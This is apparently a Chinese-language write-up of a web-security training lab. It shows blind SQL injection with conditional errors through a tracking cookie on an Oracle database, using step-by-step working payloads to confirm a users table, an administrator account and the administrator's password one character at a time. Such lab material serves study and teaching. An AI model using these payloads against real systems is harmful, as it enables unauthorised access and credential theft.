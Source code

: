 # 题意
![](pic/4-2.png)

题意与上一题基本一致，获取administrator的密码并且登录即可。
# 解题思路
step1:确认当有错误时服务器会反应
```
Cookie:TrackingId=xyz
```

step2:确认错误是sql语法错误


为此，需要先输入一句合法的sql子句：
```
TrackingId=xyz'||(SELECT '')||'
```

若有报错说明是数据库版本问题，oracle版本的：

```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
此时服务器应当不返回报错。

再输入一个非法的sql字句：

```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```

应用程序返回报错，说明可以用conditional error来处理。

step2:确定是否存在user表：

```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

<u>注意这里的WHERE ROWNUM = 1很重要，保证了两条语句的串联没有被破坏</u>

用conditional error：
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM = 1)||'


TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM = 1)||'
```
第一条报错，第二条不报错，则说明users存在。

step3:确定是否有administrator用户

```
TrackingId=LDJkIKY98qVxuqwB'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'


TrackingId=LDJkIKY98qVxuqwB'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
第一条报错，第二条不报错，则说明administrator列存在。

step4:确定administrator的密码:
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
burpsuite中payload的配置与上一题基本一致。
# 知识点
## conditional error
如果应用程序的行为不随sql语句的结果发生变化，就需要使用conditional errors。即修改sql语句，当条件为真时产生数据库error。通常，没有被处理过的数据库error会造成应用程序在响应上有一些差异，允许攻击者来推断注入条件的真伪。例如：

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
这两条输入采用case关键字来测试条件并且根据表达式的真伪返回不同的结果。对于第一个表达式，case为false，SELECT的结果为a。对于第二个表达式，case为true，语句会执行1/0导致除零错误。